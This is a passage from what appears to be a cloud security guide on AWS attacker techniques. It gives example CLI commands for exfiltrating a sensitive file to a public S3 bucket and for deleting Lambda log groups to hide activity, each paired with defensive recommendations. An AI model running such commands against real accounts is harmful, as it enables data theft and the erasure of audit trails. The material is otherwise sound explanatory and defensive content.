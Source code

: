 bash

aws s3api put-bucket-policy --bucket mybucket --policy file://policy.json

Using Public Buckets for Exfiltration:

bash

        aws s3 cp sensitive_data.txt s3://publicbucket/data/ --acl public-read

    Recommendations:
        Ensure logging is enabled for all cloud storage services and regularly review access logs.
        Use bucket policies and access control lists (ACLs) to restrict access to sensitive data.
        Monitor for changes in bucket policies and configurations that could indicate unauthorized access.
        Implement data loss prevention (DLP) solutions to detect and prevent unauthorized data exfiltration.

D. AWS Lambda and Serverless Architectures

Description: AWS Lambda and other serverless architectures allow code to run in response to events without provisioning servers. Attackers can use serverless functions to execute malicious code and cover their tracks by exploiting the ephemeral nature of these services.

    Common Techniques:
        Short-lived Lambda Functions: Deploying functions with short execution times to perform tasks without leaving significant logs.
        Log Manipulation: Modifying or deleting logs generated by Lambda functions to hide activity.
        Chaining Lambda Functions: Using multiple functions to carry out an attack, making it harder to trace a single source.

    Command Examples:

        Deploying a Short-lived Lambda Function:

        bash

aws lambda create-function --function-name my-function --runtime python3.8 --role arn:aws:iam::123456789012:role/service-role/MyRole --handler my_function.lambda_handler --zip-file fileb://my-deployment-package.zip

Deleting Lambda Logs:

bash

aws logs delete-log-group --log-group-name /aws/lambda/my-function

Chaining Lambda Functions:

python

        import boto3

        client = boto3.client('lambda')
        response = client.invoke(FunctionName='second-function')

    Recommendations:
        Enable and regularly review CloudWatch logging for all Lambda functions.
        Implement monitoring and alerting for unusual function deployment and invocation patterns.
        Use IAM roles and policies to limit the permissions of Lambda functions to only what is necessary.
        Conduct regular audits of serverless architectures to detect unauthorized changes.
